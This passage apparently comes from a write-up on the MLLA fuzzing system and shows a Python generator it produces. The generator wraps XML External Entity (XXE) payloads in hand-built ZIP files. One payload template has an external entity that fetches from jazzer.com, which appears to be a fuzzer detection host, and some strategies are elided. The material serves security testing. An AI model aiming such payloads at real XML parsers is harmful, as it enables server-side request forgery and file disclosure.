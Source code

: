 Here's the kind of generator MLLA produces:

```python
def generate(rnd: random.Random) -> bytes:
    """Generate XXE payloads embedded in valid ZIP files.

    This demonstrates MLLA's approach: not just generating XML,
    but orchestrating complex multi-format attacks.
    """

    # Step 1: Choose attack strategy intelligently
    strategy = rnd.choice(['basic_xxe', 'xinclude', 'schema_ref', 'dtd_external'])

    # Step 2: Create valid ZIP container structure
    root_filename = rnd.choice(['root.xml', 'data.xml', 'content.xml'])
    manifest = create_manifest(root_filename)

    # Step 3: Generate XXE payload based on strategy
    if strategy == 'basic_xxe':
        xml_content = create_xxe_entity(rnd)
    elif strategy == 'xinclude':
        xml_content = create_xinclude_attack(rnd)
    # ... other strategies

    # Step 4: Build complete ZIP file with proper binary structure
    return create_zip([('Manifest.xml', manifest), (root_filename, xml_content)], rnd)

def create_xxe_entity(rnd):
    """Generate XXE with external entity targeting jazzer.com"""
    port = rnd.choice([80, 443, 8080, 8443])
    path = rnd.choice(['', '/test', '/data.xml', '/api/endpoint'])

    return f'''<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
    <!ENTITY xxe SYSTEM "http://jazzer.com:{port}{path}">
]>
<root>&xxe;</root>'''.encode('utf-8')

def create_zip(files, rnd):
    """Construct valid ZIP with proper headers, compression, CRC32..."""
    # This is where the binary format mastery happens
    zip_data = bytearray()

    for filename, content in files:
        # Choose compression strategy
        compress_level = rnd.choice([0, 1, 6, 9])
        compressed = zlib.compress(content, compress_level) if compress_level else content

        # Build ZIP headers with proper signatures and metadata
        header = struct.pack('<I', 0x04034b50)  # ZIP local file header
        header += struct.pack('<H', 20)         # Version needed
        header += struct.pack('<H', 0)          # Flags
        header += struct.pack('<H', 8 if compress_level else 0)  # Compression method
        header += struct.pack('<I', zlib.crc32(content) & 0xffffffff)  # CRC32
        # ... complete ZIP specification implementation

        zip_data.extend(header + filename.encode() + compressed)

    # Add central directory and end-of-central-directory records
    zip_data.extend(build_central_directory(files))
    return bytes(zip_data)
```
